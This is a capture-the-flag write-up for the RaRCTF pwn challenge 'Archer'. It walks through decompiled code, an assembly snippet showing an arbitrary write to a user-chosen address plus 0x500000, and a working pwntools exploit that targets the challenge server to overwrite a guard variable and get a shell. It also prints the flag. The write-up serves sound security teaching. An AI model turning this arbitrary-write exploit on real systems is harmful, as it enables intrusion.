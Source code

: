 ```yaml
---
grand_parent: Categories
parent: Pwn
title: Archer
nav_order: 1
---
```


# Archer
```
It's battle time! We're giving you one shot, one kill - choose wisely.
```

## Challenge

> TL;DR: Input an address so that supplied address + 0x500000 = address of `code` variable

Ghidra's decompiled `main()`
```c
undefined8 main(void)

{
  char *pcVar1;
  char local_d [5];
  
  puts("It\'s battle day archer! Have you got what it takes?");
  printf("Answer [yes/no]: ");
  fflush(stdout);
  fgets(local_d,5,stdin);
  pcVar1 = strstr(local_d,"no");
  if (pcVar1 != (char *)0x0) {
    puts("Battle isn\'t for everyone.");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Awesome! Make your shot.");
  makeshot();
  puts("Hope you shot well! This will decide the battle.");
  if (code == 0x13371337) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("WE WON!");
  fflush(stdout);
  system("/bin/sh");
  return 0;
}
```

To spawn a shell, we need to modify the value of `code` variable (located at 0x404068) so that it does not contain 0x13371337 value.

ASM snippet of `makeshot()` 
```
LEA        RAX=>local_10,[RBP + -0x8]
MOV        RSI,RAX
LEA        RDI,[DAT_00402109] 
MOV        EAX,0x0
CALL       <EXTERNAL>::__isoc99_scanf
MOV        RAX,qword ptr [RBP + local_10]
ADD        RAX,0x500000
MOV        qword ptr [RBP + local_10],RAX
MOV        RAX,qword ptr [RBP + local_10]
MOV        qword ptr [RAX],0x0
```

The above ASM shows that the program is vulnerable to arbitrary modification. This is because local_10 is controlled by us. We can provide any address we want and change the value of (user supplied address + 0x500000) address to 0.

The following output shows that we can overwrite the value of `code` variable.
```bash
gef➤  vmmap
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
-snip-
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/kali/Downloads/rarctf/archer
-snip-
```

Idea: Provide an address so that supplied address + 0x500000 = address of `code` variable

Working POC:
```python
from pwn import *

offset = b'FFFFFFFFFFF04068' # 0x404068 - 0x500000
#r = process('./archer')
r = remote('193.57.159.27', 43092)
r.recvuntil(b'no]: ')
r.sendline(b'yes')
r.recvuntil(b'shoot?\n')
r.sendline(offset)
r.interactive()
```

Flag: `rarctf{sw33t_sh0t!_1nt3g3r_0v3rfl0w_r0cks!_170b2820c9}`
